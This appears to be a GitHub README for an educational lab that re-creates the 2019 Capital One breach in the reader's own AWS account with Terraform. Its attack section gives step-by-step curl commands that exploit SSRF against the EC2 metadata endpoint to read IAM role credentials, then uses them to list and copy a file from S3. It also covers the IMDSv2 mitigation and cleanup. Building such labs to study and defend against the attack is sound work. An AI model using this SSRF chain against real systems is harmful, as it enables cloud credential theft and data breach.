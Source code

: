 # CapitalOne-Breach-Simulation-Lab
Code and artifacts for the Adversary Emulation phase of a Root Cause Analysis of the 2019 Capital One breach report.

Based on the lab by Shay Raize Meshulam: [shayrm/CapitalOne-SSRF-demo](https://github.com/shayrm/CapitalOne-SSRF-demo)

# Purpose

This lab is designed for educational purposes to validate my CAPITAL One breach 2019 root cause analysis report to show how SSRF vulnerabilities can be exploited in a cloud environment, and then the danger of overly permissive IAM roles, how compromised EC2 metadata can lead to data breach from S3, and the effectiveness of IMDSv2 for mitigation. The lab was followed based on the GitHub repository that Say Raize Meshulam published as guidance, and modifications were made from the original main.tf file and the readme file addressed errors from the previous instruction.

#Prerequisites

AWS Account(Free tier is fine), EC2 Key Pair, AWS CLI, Terraform, Main.tf file, Local secret CSV file.

#Setup Instructions
1. Download main.tf and top_secret_file.csv into the local directory.
2. Modify main.tf. Please refer to the comments in the file and ensure your configuration is valid—region, key_pair, ubuntu-ami, bucket_name need to be changed.
3. Initialize Terraform by opening the terminal.tf file and local secret CSV file are installed and run:

terraform init

4. Validate Configuration: 

terraform fmt
terraform validate
terraform plan


5. Deploy the Lab:

terraform apply

Check that public_ip and instance_id are displayed correctly in the terminal.

Note the public_ip and instance_id from the output.

# Instructions for running  Attack Simulation

1. Check Server Response:

curl http://<public_ip>/

Replace <public_ip> with your public IP that you previously obtained on the transform apply stage.

2. Exploit SSRF to List Metadata:

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)"


3. Navigate to Credentials:

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/](http://169.254.169.254/latest/meta-data/iam/)"
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"

The output will be the role name: c-demo-role


4. Steal Credentials: 

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)c-demo-role/"


The output will be a JSON object containing AccessKeyId, SecretAccessKey, and Token.


5. Configure Attacker Profile:

aws configure set aws_session_token [YOUR_TOKEN] --profile c-demo

aws configure --profile c-demo
Enter stolen AccessKeyId, SecretAccessKey, region (e.g., us-east-2), format (json)

Copy the credentials from the JSON output and leave the token blank at the aws configure --profile c-demo stage, you already entered it.



6. Verify Access dnd List Buckets:

aws s3 ls --profile c-demo


You should be able to see your unique bucket name

7. Exfiltrate Data: 

aws s3 ls s3://<bucket_name> --profile c-demo
aws s3 cp s3://<bucket_name>/top_secret_file.csv ./ --profile c-demo

(Replace <bucket_name> with your unique bucket name)

8. Verify that it is downloading to the correct directory and check the content inside
   ls
   cat top_secret_file

#Mitigation

Enforce IMDSv2:

aws ec2 modify-instance-metadata-options --instance-id "<instance_id>" --http-tokens required --http-endpoint enabled

Use instance_id with the ID from the terraform apply output


Verify Mitigation: 
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"

It should fail when you try to attempt it again.

#Clean Up

To avoid unexpected AWS charges, destroy all created resources after you finish your activity:

terraform destroy
